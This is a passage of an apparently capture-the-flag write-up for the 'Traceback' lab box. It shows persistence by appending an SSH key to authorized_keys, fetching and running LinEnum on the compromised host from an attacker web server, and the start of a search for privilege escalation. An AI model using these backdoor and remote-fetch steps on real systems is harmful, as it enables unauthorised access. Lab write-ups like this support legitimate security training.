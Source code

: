 ### Gaining persistence

For persistence, let's add our SSH key to sysadmin's authorized_keys.

`echo "ssh-rsa <SNIP>" >> ~/.ssh/authorized_keys`

From now on, we can simply SSH into the machine.

```
root@kali:~/htb/traceback# ssh sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land
```

### Abusing writable scripts owned by root

Our next objective is to escalate to root. The message of the day shown as we ssh-ed in offers a clue which suggests that we should focus on misconfiguration.

[This excellent OSCP guide has a list of Linux privilege escalation techniques.](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html) From this list, these are the techniques exploiting misconfigurations:

* Programs running as root
* SUID misconfiguration
* World writable scripts running as root

First, let's run **LinEnum** to gather some initial intel.

Serve up the [LinEnum script](https://github.com/rebootuser/LinEnum) by starting a webserver in the folder that contains it.

`python -m SimpleHTTPServer`

Then download the script into the compromised machine:

```
$ wget http://10.10.X.X:8000/LinEnum.sh
--2020-03-16 02:31:53--  http://10.10.X.X:8000/LinEnum.sh
Connecting to 10.10.X.X:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45656 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh             100%[==========================>]  44.59K  68.5KB/s    in 0.7s    

2020-03-16 02:31:54 (68.5 KB/s) - ‘LinEnum.sh’ saved [45656/45656]

$ ls
LinEnum.sh  user.txt
$ bash LinEnum.sh
```
There's nothing interesting under the binaries running as root and the SUID programs.
